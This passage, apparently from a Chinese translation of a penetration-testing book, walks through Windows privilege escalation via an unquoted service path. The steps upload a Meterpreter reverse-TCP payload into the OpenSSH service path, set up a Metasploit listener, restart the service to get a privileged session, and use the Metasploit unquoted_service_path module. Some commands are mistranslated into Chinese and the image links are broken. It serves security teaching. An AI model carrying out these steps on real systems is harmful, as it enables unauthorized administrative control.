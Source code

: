 1.  我们现在可以通过运行以下命令，将 Meterpreter 可执行文件上传到目标的 OpenSSH 服务路径：

    **上传 /home/kali/Desktop/cygrunsrv.exe**

    如果你使用的是标准命令 shell，可以使用 **certutil** 工具将二进制文件传输到目标系统。

1.  如下图所示，这将把 Meterpreter 可执行文件上传到 OpenSSH 服务路径：![图 8.3 – 上传 Meterpreter 有效负载]

    ](Images/B17389_08_003.jpg)

    图 8.3 – 上传 Meterpreter 有效负载

1.  我们现在需要使用 Metasploit 设置 Meterpreter 监听器。这可以通过在 Metasploit 控制台中运行以下命令来完成：

    **使用 /exploit/multi/handler**

1.  下一步是指定我们用 **msfvenom** 创建二进制文件时所使用的有效负载。这可以通过运行以下命令来完成：

    **设置有效负载 /windows/x64/meterpreter/reverse_tcp**

1.  我们现在需要配置模块选项。在此情况下，我们需要配置 **LHOST** 和 **LPORT** 选项，如下图所示：![图 8.4 – Meterpreter 有效负载选项]

    ](Images/B17389_08_004.jpg)

    图 8.4 – Meterpreter 有效负载选项

1.  在设置模块选项后，我们可以通过运行以下命令启动监听器：

    **运行**

    监听器将会监听来自我们使用**msfvenom**生成的有效负载的任何传入连接。

1.  为了执行 Meterpreter 可执行文件，我们需要重启 OpenSSH 服务。这可以通过在 Windows 命令 shell 中运行以下命令来完成：

    **sc stop OpenSSHd**

    **sc start OpenSSHd**

1.  如下图所示，这将重新启动 OpenSSH 服务，接着我们应该会在监听器上收到一个特权的 Meterpreter 会话：![图 8.5 – Meterpreter 会话]

    ](Images/B17389_08_005.jpg)

    图 8.5 – Meterpreter 会话

1.  我们可以通过运行以下命令来验证我们是否有升级的 Meterpreter 会话：

    **getuid**

    如下截图所示，我们已成功提升权限，并应该具有具有管理权限的 Meterpreter 会话：

    ![图 8.6 – 未引用服务路径 Meterpreter 权限    ](img/B17389_08_006.jpg)

    图 8.6 – 未引用服务路径 Meterpreter 权限

1.  我们还可以通过使用 Metasploit 模块自动化流程来识别和利用具有未引用服务路径的目标服务，并自动上传一个提供我们升级 Meterpreter 会话的反向 shell 有效负载。这可以通过在 Metasploit 控制台中运行以下命令来完成：

    **use exploit/windows/local/unquoted_service_path**
